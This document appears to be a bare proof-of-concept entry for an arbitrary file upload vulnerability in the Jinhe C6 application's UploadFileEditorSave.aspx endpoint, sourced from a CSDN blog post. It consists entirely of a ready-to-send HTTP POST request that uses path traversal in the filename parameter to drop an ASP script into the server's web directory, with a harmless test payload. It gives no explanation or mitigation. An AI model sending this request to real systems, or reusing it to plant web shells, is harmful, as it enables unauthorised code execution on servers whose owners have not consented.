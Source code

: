 # jinhe_c6_uploadfileeditorsave_fileupload
2024/01/05
@2
from:https://blog.csdn.net/luochen2436/article/details/135372074
```
POST /C6/Control/UploadFileEditorSave.aspx?filename=\....\....\C6\qps4cckjuz.asp HTTP/1.1
Host: your_ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Connection: close
Content-Length: 191
Content-Type: multipart/form-data; boundary=----9fh1lo9qobtszaiahg6v
Accept-Encoding: gzip, deflate

------9fh1lo9qobtszaiahg6v
Content-Disposition: form-data; name="file"; filename="qps4cckjuz.jpg"
Content-Type: image/png

<% response.write(111*111)
%>

------9fh1lo9qobtszaiahg6v--

```
